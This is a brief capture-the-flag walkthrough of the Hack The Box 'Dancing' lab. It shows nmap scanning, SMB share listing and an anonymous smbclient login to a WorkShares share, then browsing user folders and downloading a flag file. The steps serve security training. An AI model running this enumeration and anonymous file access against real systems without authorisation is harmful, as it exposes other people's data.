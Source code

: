 # 💃 Hack The Box – Dancing Walkthrough

> Status: Completed ✅  
> Difficulty: Easy  
> OS: Windows  
> Points: 20

---
## 🧰 Tools Used
- Nmap
- smbclient
- Kali Linux

## 🔎 Nmap Enumeration
- nmap -sCV 10.10.xx.xx
- Port 445: SMB open
- Port 135: RPC

## 🛠️ Server Message Block(SMB) Enumeration
- smbclient -L 10.10.xx.xx
- Anonymous login enabled
- Found share: WorkShares

## 💥 Exploit
- Used credentials found to log in or access flag path.
* smbclient //10.10.xx.xx/WorkShares -N
- Download files:

1.	ls
2.	cd Amy.J
3.	ls
4.	cd ..
5.	cd James.P
6.	ls
7.	get flag.txt


